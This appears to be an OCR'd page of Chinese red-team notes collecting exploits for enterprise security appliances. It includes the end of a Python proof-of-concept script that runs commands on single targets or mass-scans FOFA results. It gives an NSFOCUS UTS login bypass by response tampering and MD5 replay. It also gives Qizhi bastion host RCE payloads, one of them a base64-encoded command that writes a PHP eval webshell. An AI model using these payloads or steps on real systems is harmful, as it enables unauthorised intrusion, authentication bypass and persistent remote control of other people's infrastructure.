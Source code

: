     re\_ = re.compile(r'\[a-zA-Z\]+://\[^\\s\]\*\[.\\w+\]')

    try :

        res = re\_.findall(sys.argv\[1\])

        poc(res\[0\])

    except:

        print("\[-\] Input url error!")

elif len(sys.argv)==3:

    re\_ = re.compile(r'\[a-zA-Z\]+://\[^\\s\]\*\[.\\w+\]')

    try :

        res = re\_.findall(sys.argv\[1\])

        poc(res\[0\],flag=True,cmd=sys.argv\[2\])

    except:

        print("\[-\] Input url error!")

else:

    domain = getFofaAssest()

    for d in domain:

        #print(d\[0\])

        if ("https://" in d\[0\]) or ("http://" in d\[0\]):

            url = d\[0\]

        else:

            url = "http://"+d\[0\]

        poc(url)

4\. 绿盟 UTS 绕过登录

随便输密码 -> 修改返回包为 True-> 放行 -> 等待第二次拦截包 -> 内含管理员 MD5-> 替换 MD5 登录

直接请求接口：/webapi/v1/system/accountmanage/account

5.WPS 命令执行漏洞（无）

http://zeifan.my/security/rce/heap/2020/09/03/wps-rce-heap.html

6\. 齐治堡垒机 rce

POST /shterm/listener/tui\_update.php

a=\["t';import os;os.popen('whoami')#"\]

https://10.20.10.10/ha\_request.php?action=install&ipaddr=10.20.10.11&node\_id=1${IFS}|\`echo${IFS}"ZWNobyAnPD9waHAgQGV2YWwoJF9SRVFVRVNUWzEwMDg2XSk7Pz4nPj4vdmFyL3d3dy9zaHRlcm0vcmVzb3VyY2VzL3FyY29kZS9sYmo3Ny5waHAK"|base64${IFS}- d|bash\`|${IFS}|echo${IFS}

7\. 联软准入漏洞（无）
